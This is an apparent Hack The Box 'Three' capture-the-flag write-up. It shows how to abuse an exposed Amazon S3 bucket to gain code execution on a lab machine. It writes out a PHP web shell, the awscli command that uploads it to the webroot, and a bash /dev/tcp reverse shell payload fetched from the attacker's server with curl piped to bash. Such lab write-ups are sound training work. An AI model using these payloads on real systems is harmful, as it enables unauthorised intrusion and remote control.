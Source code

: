 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# _**Summary**_ 

* _in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it._ 

# _**NMAP**_
![](/Assets/HTB/THREE/assets/namp.png)

# _**Ports**_ 
_we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser ._ 



![](/Assets/HTB/THREE/assets/web.png)



_By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow ._

_**NOTE** : add ip of machine in **/etc/hosts**_ 

_**like that  echo "10.129.227.248 thetoppers.htb"|sudo tee -a /etc/hosts**_

![](/Assets/HTB/THREE/assets/gobuster.png)

_we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**_

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that_ 


![](/Assets/HTB/THREE/assets/s3.png)

_The webpage only contains the perivous JSON._

_We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli**_

_First, we need to configure it using the following command. **aws configure**_

![](/Assets/HTB/THREE/assets/ls.png)

_We can list all of the S3 buckets hosted by the server by using the ls command._

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

_We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage._

_**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution._


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command._

**<?php system($_GET["cmd"]); ?>**

_then make file php_

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

_Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command_


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/shell.png)


![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._


_Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload
which will connect back to our local machine on port 1337 ._



_**bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1**_

_will start net cat listener by command **nc -nvlp 1337**_

_in addtion to will start http local server on port 8000 and host this bash file and we must open http server from directory which have bash file_

_by this command will start http server **python3 -m http.server 8000**_

![](/Assets/HTB/THREE/assets/httpremote.png)

_we will use **curl** to fetch the bash file and do that in browser by this **http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash**_ 

![](/Assets/HTB/THREE/assets/remote1.png)

![](/Assets/HTB/THREE/assets/flag1.png)



## _**Thanks for watching my Blog**_

### _**Mohamed Emam**_
























